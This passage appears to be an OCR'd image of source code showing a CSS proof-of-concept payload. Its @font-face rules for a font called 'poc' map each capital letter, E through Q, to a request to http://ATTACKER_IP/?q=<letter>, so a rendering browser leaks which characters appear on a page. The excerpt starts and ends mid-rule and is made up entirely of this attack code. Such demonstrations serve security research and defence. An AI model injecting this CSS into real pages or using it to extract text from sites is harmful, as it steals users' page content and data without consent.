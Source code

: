     unicode-range: U+0045;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=F);
    unicode-range: U+0046;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=G);
    unicode-range: U+0047;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=H);
    unicode-range: U+0048;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=I);
    unicode-range: U+0049;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=J);
    unicode-range: U+004A;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=K);
    unicode-range: U+004B;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=L);
    unicode-range: U+004C;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=M);
    unicode-range: U+004D;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=N);
    unicode-range: U+004E;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=O);
    unicode-range: U+004F;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=P);
    unicode-range: U+0050;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=Q);
    unicode-range: U+0051;
}
@font-face {
    font-family: "poc";